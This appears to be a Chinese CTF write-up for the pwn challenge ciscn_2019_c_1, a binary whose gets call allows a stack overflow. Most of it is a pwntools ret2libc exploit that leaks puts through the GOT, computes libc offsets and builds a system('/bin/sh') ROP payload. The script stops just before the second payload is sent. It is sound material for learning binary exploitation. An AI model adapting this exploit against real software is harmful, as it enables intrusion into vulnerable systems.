while中有一段加密算法，应该是异或之类的，但实际上我们不需要去解密。这里的gets是我们第二次的输入点，绕过strlen函数，就不用去管这个加密算法了，但由于没有system函数所以判断是ret2libc

==运行时：==

```python
┌──(root㉿tangjunyi)-[/home/tangjunyi/pwn]
└─# ./ciscn_2019_c_1                                 
EEEEEEE                            hh      iii                
EE      mm mm mmmm    aa aa   cccc hh          nn nnn    eee  
EEEEE   mmm  mm  mm  aa aaa cc     hhhhhh  iii nnn  nn ee   e 
EE      mmm  mm  mm aa  aaa cc     hh   hh iii nn   nn eeeee  
EEEEEEE mmm  mm  mm  aaa aa  ccccc hh   hh iii nn   nn  eeeee 
====================================================================
Welcome to this Encryption machine

====================================================================
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
1#第一次输入
Input your Plaintext to be encrypted
1111#第二次输入
Ciphertext
>>>>
====================================================================#第二次循环
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
```

综上所述程序一共提供了两次输入机会，第一次只能输入1 2 3，但第二次输入可以发生栈溢出（因为第二次输入发生在encrypt函数中，而在这个函数中我们发现了gets函数）

exp如下：

```python
from pwn import*

p=remote('node4.buuoj.cn',25635)
elf=ELF('./ciscn_2019_c_1')

main = 0x400b28#main函数的入口，为了进行第二次溢出
pop_rdi_ret = 0x400c83
ret = 0x4006b9#使用ROPgadget找到一个ret指令平衡栈

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

p.sendlineafter(b'choice!\n','1')
payload=b'\x00'+b'a'*87 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendlineafter(b'encrypted\n',payload)#第一次溢出，获取puts的真实地址
p.recvline()#接收到【Ciphertext >>>>】后换行继续接收
p.recvline()#接收到【1.Encrypt 2.Decrypt3.Exit】后换行，此时进行到了【Input your choice!】

puts_addr=u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))#接收puts真实地址
print("puts_addr ="+hex(puts_addr)) #获取了puts的真实地址后，在libcdatabase中输入puts低三位找到libc版本，进而找到其他函数的偏移量
libc_base = puts_addr - 0x0809c0#算出基地址
binsh_addr = libc_base + 0x1b3e9a
system_addr = libc_base + 0x04f440
p.sendlineafter(b'choice!\n','1')

payload=b'\x00'+ b'a'*87 + p64(ret) + p64(pop_rdi_ret)  + p64(binsh_addr) + p64(system_addr)

```